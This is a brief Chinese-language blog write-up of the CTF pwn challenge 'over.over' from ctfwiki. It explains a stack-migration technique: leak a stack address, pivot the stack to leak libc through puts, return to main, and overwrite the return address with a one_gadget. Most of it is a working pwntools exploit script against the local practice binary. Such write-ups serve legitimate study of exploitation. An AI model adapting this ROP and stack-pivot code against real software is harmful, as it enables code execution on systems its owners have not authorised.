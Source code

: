 ```yaml
---
title: Stack-Migaration
date: 2018-09-29 22:50:49
tags: pwn 
layout: default
---
```

one demo
关于 Stack Migration
<!--more-->
# over.over
在ctfwiki上看到的
[over][1]
虽然很简单但是很精练 可以作为一般stack migration的范本
# Analysis
程序很简单
* 有0x10的溢出 可以覆盖rbp和ret address
* 可以泄露栈地址(rfd)
# 思路
泄露栈地址
->栈迁移到可控区域leak libc
->跳回main
->改掉返回地址为one_gadget

# EXP
```python
from pwn import *
def repeat(c):
	p.readuntil(">")
	p.send(c)
bin=ELF("./over.over")

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level='debug'
leave=0x00000000004006be
pr=0x0000000000400793
main=0x0000000004006C0
p=process("./over.over")

payload="A"*0x50
repeat(payload)
p.readuntil("A"*0x50)

data=p.readline()
stack=u64(data[:-1].ljust(8,"\0"))
log.warning(hex(stack))

payload=p64(0xdeadbeef)+p64(pr)+p64(bin.got['puts'])+p64(bin.plt['puts'])+p64(main)
payload=payload.ljust(0x50,'\0')+p64(stack-0x70)+p64(leave)

repeat(payload)
p.readline()
data=p.readline()
base=u64(data[:-1].ljust(8,"\0"))
base=base-libc.symbols['puts']
libc.address=base
one=0x4526a+base
log.warning(hex(base))


repeat("A"*0x50+p64(0xdeadbeef)+p64(one))
p.interactive()
```

[1]:https://github.com/n132/banana/tree/master/Pwn/stack_trick/stack_migration_over